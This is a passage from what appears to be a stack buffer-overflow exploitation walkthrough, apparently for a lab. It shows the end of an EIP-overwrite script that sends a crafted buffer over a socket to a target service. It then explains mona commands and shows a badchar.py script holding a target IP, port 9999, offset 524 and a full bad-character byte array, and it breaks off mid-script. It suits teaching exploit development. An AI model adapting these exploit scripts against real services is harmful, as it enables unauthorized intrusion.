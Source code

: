 ```python title="eip.py"

buffer = overflow + retn + padding + payload + postfix

print("buffer=",len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("buffer size:", len(buffer))
  print("Crash Overwrite EIP: 42424242...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

If you did everything right, there will be `0x42424242` (i.e. 4 x B's) in the EIP.

### bad chars

Do a quick check of bad characters to avoid in your shellcode.

Set mona work dir: `!mona config -set workingfolder C:\Users\IEUser\Downloads\%p`

Let's use mona to create our byte array and test for bad chars starting with the nullbyte array: `!mona bytearray -b "\x00"`

Use our script `badchar.py` to send the payload:

```python title="badchar.py"
#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 9999

offset = 524
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = overflow + retn + payload

print("buffer=",len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```